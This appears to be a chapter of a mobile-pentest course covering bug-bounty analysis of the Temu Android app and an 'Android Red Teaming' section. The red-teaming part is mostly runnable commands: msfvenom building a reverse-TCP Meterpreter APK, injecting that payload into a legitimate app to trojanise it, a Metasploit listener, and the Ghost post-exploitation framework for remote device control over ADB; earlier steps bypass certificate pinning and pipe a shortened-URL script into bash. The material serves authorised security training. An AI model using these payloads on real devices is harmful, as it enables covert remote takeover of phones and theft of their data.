# 6. Android Bug Bounty

## Android Bug Bounty Hunt

> ❗ Always refer to a HackerOne Bug Bounty program to find valid targets
>
> 🔗 [HackerOne Android programs](https://hackerone.com/opportunities/all/search?asset_types=GOOGLE_PLAY_APP_ID%2COTHER_APK&ordering=Newest+programs)
>
> - 🧪  `e.g.` - [Temu - com.einnovation.temu](https://hackerone.com/temu/policy_scopes) Android App is in scope

Install `Temu` app via Android Play Store - name `com.einnovation.temu`

```bash
frida-ps -Uai | grep temu  
	Temu com.einnovation.temu
```

Pull `apk` from the phone

```bash
cd ~/tcm/mapt/temu

adb shell pm list packages | grep temu
adb shell pm path com.einnovation.temu

adb pull /data/app/com.einnovation.temu-RKERNRo1SuGOM3UEbNeFIA==/base.apk
adb pull /data/app/com.einnovation.temu-RKERNRo1SuGOM3UEbNeFIA==/split_config.arm64_v8a.apk
adb pull /data/app/com.einnovation.temu-RKERNRo1SuGOM3UEbNeFIA==/split_config.xhdpi.apk

    .rw-r--r-- 19M base.apk
    .rw-r--r-- 15M split_config.arm64_v8a.apk
    .rw-r--r-- 77k split_config.xhdpi.apk

mv base.apk temu.apk

# or use apkpull tool by david-lee
curl -sL bit.ly/apkpull | bash -s -- com.einnovation.temu -d .
```

Open `base.apk` in `jadx-gui`

Check `AndroidManifest.xml` minSdkVersion, Permissions, exported activities, providers, links, keys etc. Search:

- `android:exported="true"`





Check `strings.xml` for hardcoded strings, databases (Firebase, etc), keys, email, phone numbers, etc.

Setup `BurpSuite` with Proxy listener to `All interfaces` and set the proxy on the device network connection (make sure BurpSuite certificate is installed)

```bash
# Create an alias for set and unset proxy
alias adbsetproxy="adb shell settings put global http_proxy $(ip -o -4 addr show eth1 | awk '{print $4}' | sed 's/\/.*//g'):8080"

alias adbunsetproxy="adb shell settings put global http_proxy :0"

# Use the created alias to set the proxy
adbsetproxy
```

- Navigate the app. It seems certificate pinning is on.



Try to bypass Certificate Pinning

```bash
objection -g com.einnovation.temu explore -s "android sslpinning disable"
```

- Certificate Pinning bypassed successfully. Traffic is intercepted in BurpSuite.
  - Navigate the app and check the HTTP history requests.







In `Jadx-GUI` search for URLs (`http`, `https`), `API_KEY`, Coupons, etc







Check **internal storage** for sensitive data store in files, cache, databases, etc

```bash
adb shell
su

cd /data/data/com.einnovation.temu/

# or open Device Explorer in Android Studio
```







- Check for databases



- After navigating and interacting with the app, Pull interesting `db` files and check them with [`SQLite Browser`](https://sqlitebrowser.org/), look through the database tables and structure.

```bash
# e.g.
adb pull /data/data/com.einnovation.temu/databases/google_app_measurement_local.db

# if Permission Denied error use su command like this

adb -d shell "su -c cp /data/data/com.einnovation.temu/databases/google_app_measurement_local.db /sdcard/Download"
adb pull /sdcard/Download/google_app_measurement_local.db

sqlitebrowser google_app_measurement_local.db
```

Interaction with all the app's functions is important to further analyze the app during dynamic analysis.

**Patching APK**

> [patch-apk](https://github.com/NickstaDB/patch-apk) tool can also be used for identifying the package name, extracting APKs, patching with `objection`, consolidating split APKs, enabling CA certificates, uninstalling the original app, and installing the patched version.

```bash
# Usage
cd ~/repo
git clone https://github.com/NickstaDB/patch-apk.git
cd ~/repo/patch-apk
apktool empty-framework-dir --force

python3 patch-apk.py com.einnovation.temu

# In case of apktool error
mv ~/.local/share/apktool/framework/1.apk ~/.local/share/apktool/framework/1.apk.bak
# Get a proper framework apk from a device /system/framework
adb pull /system/framework/framework-res.apk
mv framework-res.apk ~/.local/share/apktool/framework/1.apk

# Re-run patck-apk
python3 patch-apk.py com.einnovation.temu
```

Reinstall the new patched app in the phone

```bash
adb uninstall com.einnovation.temu
adb install com.einnovation.temu-patched
```

---

## Android Red Teaming

> ❗ Always use the following Hardware on permitted targets, from a Red Team perspectice.
>
> - [O.MG Cable - Hak5](https://shop.hak5.org/products/omg-cable)
> - [USB Ninja Cable - Hacker Warehouse](https://hackerwarehouse.com/product/usb-ninja-cable/)

### Create Generic APK with Metasploit

The following command will generate a `Main Activity` app, that makes the Android device reach the Kali VM machine establishing a session.

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> R> android.apk
```

- Sign the `android.apk` and upload it to the device.

```bash
# Create a Keystore
keytool -genkey -v -keystore demo.keystore -alias demokeys -keyalg RSA -keysize 2048 -validity 10000

# Sign the APK
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore demo.keystore -storepass demopw android.apk demokeys

# zipalign the APK
zipalign -v 4 android.apk android_signed.apk
```

```bash
adb install android_signed.apk

# or via network (to device or emulator)
# adb -H 192.168.56.103 -P 5555 install android_signed.apk
```

- Open a `meterpreter shell` and listen for the connection

```bash
msfconsole
use exploit/multi/handler
# set LHOST and LPORT same as in the msfvenom command
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
```

### Inject App with Metasploit

Make sure `Apktool` is updated.

Download `InjuredAndroid`.

```bash
mkdir ~/apks
cd ~/apks

wget -O InjuredAndroid.apk https://github.com/B3nac/InjuredAndroid/releases/download/v1.0.12/InjuredAndroid-1.0.12-release.apk

adb install InjuredAndroid.apk
```

- Inject a `Meterpreter` payload into the InjuredAndroid.apk

```bash
msfvenom -x InjuredAndroid.apk -p android/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -o InjuredAndroid_hacked.apk
```



```bash
adb uninstall b3nac.injuredandroid
adb install InjuredAndroid_hacked.apk 
```

```bash
msfconsole -q
use exploit/multi/handler
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
```

> 📌 The reverse shell may not work correctly because of Android and emulator versions or incompatibility.
>
> 🔗 [Manual - Embedding Meterpreter in Android APK - Black Hills Information Security](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)


### The Ghost Framework

> 🔗 [kp-forks/ghost-1](https://github.com/kp-forks/ghost-1) - Ghost Framework is an Android post-exploitation framework that exploits the Android Debug Bridge to remotely access an Android device. Ghost Framework gives you the power and convenience of remote Android device administration

```bash
cd ~/repo
git clone https://github.com/kp-forks/ghost-1.git
cd ghost-1
sudo ./install.sh

# Run with
sudo ./ghost
```

- To make it work on port 5555, `adb` should be connected via tcp to the device

```bash
# Connect device with USB
adb tcpip 5555
adb connect <DEVICE_IP>:5555
adb devices
# Disconnet device USB
```

```bash
# Similar to Metasploit
set RHOST <DEVICE_IP>
options

run
```

